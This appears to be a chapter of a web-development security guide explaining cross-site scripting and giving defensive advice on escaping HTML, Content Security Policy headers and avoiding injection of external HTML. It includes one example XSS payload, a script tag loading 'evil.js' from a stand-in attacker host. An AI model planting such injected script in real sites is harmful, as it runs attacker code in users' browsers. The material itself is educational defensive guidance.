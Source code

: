 ```yaml
---
title: 'Cross Site Scripting (XSS)'
dateUpdated: '27-02-2021'
summary: 'About cross-site scripting and security'
tags: ['XSS', 'security']
chapter: '16'
---
```

# 16. Cross Site Scripting (XSS)
1. ## Understand XSS
	Cross-site scripting (XSS) involves someone finding a way to get your user’s browser to run JavaScript code you didn’t intend your app to run. The most common way of doing this is by submitting HTML through one of the forms and counting on your app to add this HTML to the page. Since injected code is run by the browser in the context of your application, the opportunities for abuse are endless.Suppose we are writing a blog that accepts comments. When we display comments we do so by setting div.innerHTML. Someone posts a comment that says: `<script src="http//h4kk3rs.com/code/that/does/something/evil.js"></script>` Your app will add this HTML to the DOM, which will cause the browser to run the code.
2. ##  Do Not Assume You Can Make HTML Safe
	HTML is a beast. You can’t parse it with regular expressions. You can’t count on knowing all the crazy corners in all versions for all browsers. So, don’t count on running HTML through a regexp and fully sanitizing it. The only moderately safe way of handling HTML in a browser is to escape it, though even that will leave you open to XSS on some browsers.
3. ## Set Content Security Policy Headers
	Content Security Policy headers tell modern browsers to block some of the most common holes. Don’t count on it to prevent all XSS, but do it for a good measure.
4. ## Avoid Attaching External HTML Into DOM
	Since external HTML cannot be made safe, the best strategy is to avoid inserting it into DOM. Angular gives you some methods of doing this if you really insist, plus you always attach it to DOM directly. This doesn’t make it a good idea, however.